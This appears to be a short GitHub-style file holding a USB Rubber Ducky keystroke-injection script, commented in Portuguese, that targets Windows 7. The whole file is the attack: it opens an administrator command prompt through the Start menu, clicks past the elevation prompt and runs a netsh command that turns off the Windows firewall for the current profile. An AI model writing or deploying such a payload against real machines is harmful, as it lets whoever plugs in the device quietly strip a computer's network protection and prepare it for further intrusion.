 # W7-Firewall-disable-USB-rubber-Ducky
#Disable the firewall of W7 using an USB Rubber Ducky

REM Turn on or off firewall for the current profile

REM Aviso de inicializacao

DELAY 1000
GUI r
DELAY 500
STRING notepad
DELAY 500
ENTER
DELAY 500
STRING Aviso de inicializacao
DELAY 500
ALT F4
DELAY 500
RIGHT
DELAY 500
ENTER

REM Iniciando o CMD como Administrador

DELAY 500
CONTROL ESC
DELAY 500
STRING cmd
DELAY 500
MENU
DELAY 500
DOWN
DELAY 500
DOWN
DELAY 500
ENTER 
DELAY 500
LEFT
DELAY 500
ENTER

REM Desabilitando o firewall

DELAY 500
STRING netsh advfirewall set  currentprofile state off
ENTER
DELAY 500
STRING exit
ENTER
